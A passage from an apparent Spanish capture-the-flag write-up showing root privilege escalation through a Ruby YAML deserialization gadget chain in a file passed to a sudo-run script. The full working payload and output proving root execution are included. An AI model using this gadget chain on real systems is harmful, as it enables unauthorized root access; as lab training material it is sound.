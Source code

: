 Podemos explotarlo creando un archipo dependencies.yml en /henry y ejecutando /opt/update_dependencies.rb como sudo con la finalidad de que el binario /bin/bash tenga permisos SUID.

```bash
dependencies.yml = ---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Lo ejecutamos como sudo:

```bash
henry@precious:~$ ls
dependencies.yml  user.txt
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
```
